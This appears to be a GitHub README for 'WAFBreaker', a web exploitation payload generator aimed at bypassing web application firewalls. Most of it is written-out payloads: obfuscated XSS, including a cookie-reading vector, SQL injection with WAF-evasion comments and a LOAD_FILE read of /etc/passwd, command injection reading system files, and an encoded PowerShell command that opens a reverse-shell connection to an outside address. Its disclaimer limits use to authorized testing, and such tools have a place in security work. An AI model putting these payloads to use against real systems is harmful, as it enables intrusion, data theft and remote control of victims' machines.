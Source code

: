 # 🛡️ Web Exploitation Payload Generator

![Python Version](https://img.shields.io/badge/python-3.8+-blue.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)
[![Documentation](https://img.shields.io/badge/docs-Advanced-blueviolet)](https://github.com/yourusername/web-exploitation-payload-generator/wiki)

> **The ultimate toolkit for security professionals**  
> Generate, test, and analyze evasion-ready payloads for critical web vulnerabilities

## 📋 Table of Contents
- [✨ Key Features](#key-features)
- [⚙️ Installation](#installation)
- [🚀 Usage Examples](#usage-examples)
- [🔧 Payload Modules](#payload-modules)
- [🔌 API Integration](#api-integration)
- [📤 Sample Outputs](#sample-outputs)
- [🤝 Contributing](#contributing)
- [📜 License](#license)
- [⚠️ Legal Disclaimer](#legal-disclaimer)

---

<a id="key-features"></a>
## ✨ Key Features

| Feature | Description | Advanced Capabilities |
|---------|-------------|----------------------|
| **XSS Payloads** | Reflected, Stored, DOM-based payloads | SVG/srcdoc/null-byte bypasses, JSFuck obfuscation |
| **SQL Injection** | Error-based, Union-based, Blind SQLi | WAF evasion with versioned comments, whitespace bypass |
| **Command Injection** | Linux/Windows payload variants | Encoding bypasses, argument splitting |
| **Payload Processing** | Base64/URL/Hex/Unicode encoding | 3-tier obfuscation engine with null bytes |
| **Tool Integration** | Burp Suite & OWASP ZAP API | Automated payload delivery |
| **Enterprise Output** | CLI, JSON, clipboard | Customizable templates, batch processing |

---

<a id="installation"></a>
## ⚙️ Installation

```bash
# Clone repository
git clone https://github.com/ameer4k/WAFBreaker.git
cd WAFBreaker

# Install dependencies
pip install -r requirements.txt

# Launch tool
python main.py [CLI_OPTIONS]  # Command-line interface
python main.py                # Graphical interface
```

---

<a id="usage-examples"></a>
## 🚀 Usage Examples

### CLI Interface (Penetration Testing)

```bash
# Generate SQLi payloads with WAF bypass in JSON format
python main.py --type sqli --technique union --bypass --output json > payloads.json

# Create obfuscated XSS payloads and send to Burp Suite
python main.py --type xss --obfuscate 3 --burp http://localhost:8080

# Generate Windows command injection payloads with Base64 encoding
python main.py --type cmdi --os windows --encode base64
```

### GUI Interface (Security Training)

![Payload Generator GUI Interface](https://via.placeholder.com/800x500.png?text=Payload+Generator+GUI+Interface)

Interactive payload generation with real-time preview

---

<a id="payload-modules"></a>
## 🔧 Payload Modules

### 1. XSS Payload Generator

```html
<!-- DOM-based XSS with evasion -->
<svg/onload=alert`${document.domain}`>
<img src=x oneerror=alert(1)>
<script>/*!*/al\u0065rt(1)/*!*/</script>
```

### 2. SQL Injection Engine

```sql
-- WAF Bypass Examples
1'/*!50000UNION*//*!50000SELECT*/@@version,2,3-- -
id=1' AND 1=(SELECT LOAD_FILE('/etc/passwd')) -- 
' OR 1=1 /*!0aNd*/ '1'='1
```

### 3. Command Injection

```bash
# Linux payloads
;cat /etc/passwd
`echo d2hvYW1p | base64 -d`  # whoami
```

```powershell
# Windows bypasses
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAxADAAIgAsADQANAA0ADQAKQA=
```

---

<a id="api-integration"></a>
## 🔌 API Integration

```python
# Send payloads directly to Burp Suite
from api_integration import BurpSuiteAPI

burp = BurpSuiteAPI("http://localhost:8080")
for payload in generated_payloads:
    burp.send_to_repeater(payload)
```

---

<a id="sample-outputs"></a>
## 📤 Sample Outputs

### JSON Export

```json
{
  "module": "XSS",
  "technique": "DOM-based",
  "payloads": [
    "<svg onload=alert(document.domain)>",
    "<img src=x:g onerror=\"eval(atob('YWxlcnQoJ1hTUycp'))\">",
    "javascript:alert`${btoa(document.cookie)}`"
  ]
}
```

### Command-Line Output

```text
[1] ' UNION SELECT @@version,user() -- 
[2] id=1'/*!50000UNION*//*!50000SELECT*/1,table_name,3 FROM information_schema.tables-- -
[3] ' AND (SELECT 1 FROM (SELECT SLEEP(5))a) --
```

---

<a id="contributing"></a>
## 🤝 Contributing

We welcome security researchers and developers to:

- Report issues and suggest features
- Submit PRs with new payload modules
- Improve evasion techniques
- Add support for additional security tools

See our [Contribution Guidelines](CONTRIBUTING.md) for details.

---

<a id="license"></a>
## 📜 License

This project is licensed under the MIT License - see [LICENSE](LICENSE) file for details.

---

<a id="legal-disclaimer"></a>
## ⚠️ Legal Disclaimer

**Important:** This tool is intended solely for:

- Educational purposes
- Security research
- Authorized penetration testing
- Improving defensive strategies

**Never use this tool on systems without explicit written permission.** The developers assume no liability and are not responsible for any misuse or damage caused by this software.
